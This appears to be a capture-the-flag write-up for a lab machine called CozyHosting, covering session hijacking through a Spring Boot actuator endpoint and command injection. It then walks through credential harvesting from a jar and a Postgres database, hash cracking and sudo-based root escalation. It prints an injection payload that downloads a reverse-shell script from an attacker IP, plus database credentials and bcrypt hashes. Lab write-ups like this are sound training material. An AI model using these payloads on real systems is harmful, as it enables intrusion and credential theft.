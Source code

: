 # CozyHosting

# Nmap scan

<figure><img src="../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

# Site enumeration

Looking at the site it is hard to indentify what it is running but I rembered something from an ippsec video that helps me. You can identify services by the applications 404 page!!! This [resource ](https://0xdf.gitlab.io/cheatsheets/404)helps.

And it tells us its spring boot!

Doing some googling we can find typical spring boot end points with this [resource](https://docs.spring.io/spring-boot/reference/actuator/endpoints.html).

And we find an interesting actuator endpoint. Looking around and we can find session for the kanderson with what seems to be a hash.

```
8FED324727395ED7BB4D3D7D9A904355
```

After some time wasted trying to crack this hash I realised it was a cookie and not a hash....

We can swap that with our current session and after I get in I find executessh is vulnerable to command injection i tried a lot of things to get a shell and finially did this&#x20;

```
0xdf;curl${IFS}http://10.10.16.5:8000/rev.sh${IFS}-o${IFS}/tmp/rev.sh
```

And we have a shell!

# Priv esc

Linpeas and sudo -l do not find anything of not but we do have a jar file

We can extact and search for passwords

<figure><img src="../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>

And we find credentials for postgres, we can use this command to login.

```
PGPASSWORD='Vg&nvzAQ7XxR' psql -U postgres -h localhost
```

And we find hashes

```
kanderson:$2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
admin:$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
```

And we can crack the hash...

<figure><img src="../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

We try to ssh as root but fail. Looking at the passwd file we see a user called josh and this password does work!!

Now as the josh user we run sudo -l and see we can run ssh as root!!

This [exploit ](https://gtfobins.github.io/gtfobins/ssh/#sudo)from GTFOBins gets us root in one line.

PWNNDDDD
